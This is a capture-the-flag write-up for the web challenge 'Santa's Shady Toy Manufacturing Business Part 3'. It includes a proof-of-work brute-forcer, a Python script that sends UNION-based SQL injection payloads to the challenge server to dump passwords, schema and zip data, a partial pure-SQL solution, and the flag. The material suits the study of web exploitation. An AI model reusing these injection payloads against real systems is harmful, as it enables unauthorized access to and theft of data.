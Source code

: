 # Santa's Shady Toy Manufacturing Business Part 3 (web 1491)

Upon trying to enter the database again with our new credentials, we encounter a (pretty solid) proof of work for each query. From now on, each query takes more time, so enumerating data one by one is no longer practical...

```py
import itertools
import hashlib
import string

def pow(salt, hashval):
    print("Solving pow, plz wait")
    table = string.ascii_lowercase

    for v in itertools.product(table, repeat=7):
        if hashlib.md5(salt.encode() + (''.join(v)).encode()).hexdigest()[:6] == hashval:
            return ''.join(v)

```

Upon checking the database, in the table `sql_torture_but_with_kind_explanations` we get an explanation of what we need to do:

```
Are you still alive? good. Because now the database gets insane. I had to quit my job over this, so good luck to the poor manager who supersedes me, haha. I'll still try to explain what we got here, just from the kindness of my heart. No need to thank me :) Basically, the painting contains a XOR Key, which you use to XOR every one of the management passwords. Then, every single xored management password is a parameter to its corresponding final_chunk function. These final chunks will tell you how to form a final password. You will then need to look into the final bitfield byte tables and build another final string, where every table is a character from that string (you can figure out the characters if you look at the column names :) ). Pass the final password and the final bitfield thing to the zip password getter. That's the password for the zip archive encoded in the same way as the final string. That's the zip where we store the juicy secrets, usually we have scripts for us that do all the busy work for us, but since you are a new manager I think IT hasn't had the time to send them to you. You'll need to write that yourself. Also, the entire database refreshes all the passwords once every few seconds, so you'd need to write everything in one query. Good luck! You need to be one MEAN SQL wizard to figure this shit out.
```

This text "explains" the objective of the challenge, but it hides a lot of details. The actual process we will need to follow ends up being this (some details of which can only be found when you finish the previous parts):

- Read the painting table to find an XOR key. The painting actually contains a 10-character key which needs to be ceaser ciphered with a number also given in the painting table. Fortunately, the keys are located at a constant position.
- XOR the resulting key with each password in the `management_passwords` table.
- Call `get_final_chunk_for_id_#` on each XORed management password. Each function returns a pair (index of the final chunk, character in that position).
- Combine the final chunks back in order.
- Read the final bitfiend and zip file from column names. There are 61 tables of the form `final_bitfield_byte_#` and 161 tables of the form `zip_file_byte_#`. Each table has columns of the form `bit_#_set` which correspond to set bits in the byte.
- Pass the final bitfiend and reassembled final chunk to the `get_zip_password` function.
- Read both the results. We can unzip the password later.

Because you could start multiple sessions, I ended up cheesing the challenge - preparing three sessions in advance and having each prepare a proof of work ahead of time such that 3 queries could be sent in one password refresh cycle. That way I could do the hardest work in Python, and each query just needed to dump all the data at once or call functions. The `GROUP_CONCAT` and `CONCAT_WS` functions are very useful for this.

Here is my script for this:

```py
from pow import pow
import requests
import json
import sys
import string

# Off Google
def caesar(text, step, alphabets):
    def shift(alphabet):
        return alphabet[step:] + alphabet[:step]
    shifted_alphabets = tuple(map(shift, alphabets))
    joined_aphabets = ''.join(alphabets)
    joined_shifted_alphabets = ''.join(shifted_alphabets)
    table = str.maketrans(joined_aphabets, joined_shifted_alphabets)
    return text.translate(table)

with open(sys.argv[1]) as f:
    ck1 = json.load(f)
with open(sys.argv[2]) as f:
    ck2 = json.load(f)
with open(sys.argv[3]) as f:
    ck3 = json.load(f)

x1 = []
x2 = []
for x in range(26, 36):
    x1.append("x%d" % (x))
    x2.append("x%d" % x)

x1 = ",".join(x1)
x2 = ",".join(x2)
q = "WITH cK as (SELECT CONCAT(x27,x28) as k FROM painting LIMIT 1 OFFSET 93), b as (SELECT %s FROM painting LIMIT 1 OFFSET 61) SELECT CONCAT(cK.k,'|',%s) as k FROM cK, b" % (x1, x2)
q = "WITH k as (%s), w as (SELECT GROUP_CONCAT(pass SEPARATOR '.') as z FROM management_passwords ORDER BY id ASC), y as (SELECT GROUP_CONCAT(CONCAT(COLUMN_NAME,',',TABLE_NAME) SEPARATOR '.') as y from information_schema.columns WHERE TABLE_NAME LIKE '%s' LIMIT 1) SELECT CONCAT_WS('|',k.k,w.z,y.y) FROM k, w, y" % (q, '%byte%')
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)

url = "http://challs.xmas.htsp.ro:3001/redirect.php"
def get_pow(c):
    chall = requests.get(url, cookies=c).text.split("'")
    salt = chall[4]
    target = chall[6]
    print(salt, target)
    sol = pow(salt, target)
    print(sol)
    return sol
p1 = get_pow(ck1)
p2 = get_pow(ck2)
p3 = get_pow(ck3)

input("waiting: ")

from pwn import xor
r = requests.post(url, data={"work": p1, "goto": q}, cookies=ck1, allow_redirects=False)
r = r.headers["Location"][1:-5]
with open("tmp", "w") as f:
    f.write(r)
caesar_key, xor_key, management_passwords, columns = r.split("|")
xor_key = caesar(xor_key, int(caesar_key), (string.ascii_lowercase, string.ascii_uppercase))
management_passwords = [xor(xor_key, p) for p in management_passwords.split(".")]
max_bf = 0
max_zp = 0
for c in columns.split("."):
    col, tab = c.split(",")
    if tab.startswith("get_zip_byte_"):
        i = int(tab.replace("get_zip_byte_", ""))
        if i > max_zp: max_zp = i
    if tab.startswith("get_final_bitfield_byte_"):
        i = int(tab.replace("get_final_bitfield_byte_", ""))
        if i > max_bf: max_bf = i
print(max_bf, max_zp)
final_bitfield = bytearray(max_bf+1)
zip_file = bytearray(max_zp+1)

for c in columns.split("."):
    col, tab = c.split(",")
    if col == "no_bits_set": continue
    if tab.startswith("get_zip_byte_"):
        i = int(tab.replace("get_zip_byte_", ""))
        #print('z', i)
        zip_file[i] |= 2**(int(col.split("_")[1]))
    if tab.startswith("get_final_bitfield_byte_"):
        i = int(tab.replace("get_final_bitfield_byte_", ""))
        #print('f', i)
        final_bitfield[i] |= 2**(int(col.split("_")[1]))

print(xor_key)
print(management_passwords)
print(final_bitfield)
print(zip_file)

pws = []
for i in range(60):
    pws.append("get_final_chunk_for_id_%d(UNHEX('%s'))" % (i, management_passwords[i].hex()))
pws = ",".join(pws)
q = "CONCAT_WS('|', %s)" % pws
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)
r = requests.post(url, data={"work": p2, "goto": q}, cookies=ck2, allow_redirects=False)
password = r.headers["Location"][1:-5]
print(password)

final = [None] * 60
for chunk in password.split("|"):
    p, s = eval(chunk)
    final[p] = s
final = "".join(final)

q = "SELECT get_zip_password('%s', UNHEX('%s'))" % (final, final_bitfield.hex())
q = "' AND 1=2 UNION SELECT (%s) UNION SELECT (1) WHERE '" % q
# print(q)
r = requests.post(url, data={"work": p3, "goto": q}, cookies=ck3, allow_redirects=False)
# print(r)
print(r.headers["Location"])
```

## Partial "real" solution
I did put together a good part of a real solution but I lost interest on assembling the string XORs. On MySQL, you can XOR binary type strings together of any length but not in MariaDB which the server is running.

Here is what I had (... is repeated stuff):
```sql
WITH c AS (
    WITH x AS (
        WITH l AS (
            WITH w as (
                WITH cK as 
                (SELECT (ORD(x27)-48) as k FROM painting LIMIT 1 OFFSET 93), b as (SELECT ORD(x0) as x0, ... FROM painting LIMIT 1 OFFSET 61)
                SELECT CONCAT(CHAR(IF(b.x%d+k>122,b.x%d+k-26,IF(b.x%d>90,b.x%d+k,IF(b.x%d+k>90,b.x%d+k-26, ...) as k FROM cK, b
            SELECT CAST(CONCAT(q,q,q,q,q,q,q,q) AS BINARY) as k FROM w
        )
        SELECT CAST(SUBSTRING(k FROM 1 FOR CHARACTER_LENGTH(pass)) ^ CAST(pass AS BINARY) AS CHAR) FROM management_passwords CROSS JOIN l ORDER BY id ASC
    )
    SELECT get_final_chunk_for_id_0(SELECT k from x LIMIT 1 OFFSET 0) as p FROM x
    UNION ALL
    SELECT get_final_chunk_for_id_1(SELECT k FROM x LIMIT 1 OFFSET 1) FROM x
)
SELECT get_zip_password(CONCAT(SELECT SUBSTRING(p FROM 4 FOR 1) FROM c WHERE SUBSTRING(p FROM 1 FOR 2) = '1,', ...), final_bitfield) FROM c
```

## Flag
`X-MAS{w00_w3_f1n4lly_d1d_1t!__w3_wr0t3_4_pr0gr4m_1n_SQL!!_41c2chc1}`
